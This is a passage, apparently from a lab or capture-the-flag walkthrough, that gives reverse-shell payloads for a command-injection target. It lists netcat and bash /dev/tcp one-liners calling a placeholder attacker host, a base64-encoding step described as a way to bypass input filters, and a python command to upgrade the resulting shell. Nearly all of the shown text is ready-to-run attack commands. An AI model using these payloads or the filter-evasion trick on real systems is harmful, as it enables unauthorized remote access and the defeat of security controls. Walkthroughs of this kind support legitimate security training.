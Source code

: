 2. Example payloads (choose based on what `nc` / `bash` allow):
- `nc -e /bin/bash ATTACKER_IP PORT` (works if `nc` on target supports `-e`)
- `bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1` (pure bash)

3. Base64-encoded approach (helpful to bypass filters):
```bash

# locally generate base64 payload
echo -n 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1' | base64
# on target (in the command input):
echo 'BASE64STRING' | base64 -d | bash
```
![Base64-encoded reverse shell payload preparation](images/revshell_base64_encryption.png)

**Important encoding note:** Use straight ASCII quotes (`'`) not smart/curly quotes (`“ ”`). Smart quotes will break shells.

### After getting a connection
Spawn a better TTY:
```bash

python3 -c 'import pty; pty.spawn("/bin/bash")'
# press Enter
```